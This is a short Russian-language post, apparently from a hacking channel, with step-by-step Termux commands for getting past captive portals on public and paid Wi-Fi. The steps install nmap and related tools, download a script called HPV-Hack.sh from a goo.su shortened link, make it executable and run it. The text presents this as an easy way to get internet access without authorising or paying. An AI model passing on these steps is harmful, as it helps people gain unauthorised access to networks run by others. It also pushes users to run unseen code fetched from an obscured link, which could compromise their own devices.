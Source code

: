 🌀 По настоящему Free Wi-Fi 🌀

💢 В повседневной жизни часто бывает нужен интернет, особенно в кафе или других общественных местах, где есть WiFi. Но, почти всегда, даже бесплатные сети могут быть защищены Captive Portal, требующим ввода данных, подтверждения номера телефона по смс или оплаты. Хорошо, что есть способы обойти эту штуку!

⚙ Инструкция:
1) Начнем с установки инструмента. Открываем терминал и выполняем следующие команды:

$ pkg update && pkg upgrade -y
$ pkg install sipcalc nmap wget
$ wget -O HPV-Hack.sh https://goo.su/a3CnU && chmod u+x HPV-Hack.sh

2) Отлично, инструмент установлен, осталось запустить следующей командой:

$ bash HPV-Hack.sh

😈 Как только появится сообщение "Pwned! Now you can surf the Internet!", это означает, что теперь Вы свободно можете пользоваться интернетом без каких-либо ограничений или проблем!

